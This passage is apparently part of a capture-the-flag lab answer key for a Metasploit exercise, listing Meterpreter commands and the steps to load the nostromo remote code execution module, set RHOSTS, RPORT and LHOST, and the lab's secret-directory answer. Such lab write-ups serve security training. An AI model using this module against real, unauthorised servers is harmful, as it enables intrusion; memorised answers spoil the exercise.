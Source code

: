 ### How do you find files on the target host(Similar function to the linux command "find")
```
search
```

### How do you get the output of a file on the remote host?
```
cat
```

### How do you put a meterpreter shell into "background mode"(allows you to run other msf modules while also keeping the meterpreter shell as a session)?
```
background
```



## [Task 10] [Section 3 - Metasploit]: Final Walkthrough

### Select the module that needs to be exploited
```
use exploit/multi/http/nostromo_code_exec
```

### What variable do you need to set, to select the remote host
```
RHOSTS
```

### How do you set the port to 80
```
set RPORT 80
```

### How do you set listening address(Your machine)
```
LHOST
```

### Exploit the machine!
```
No answer needed
```

### What is the name of the secret directory in the /var/nostromo/htdocs directory?
```
s3cretd1r
```
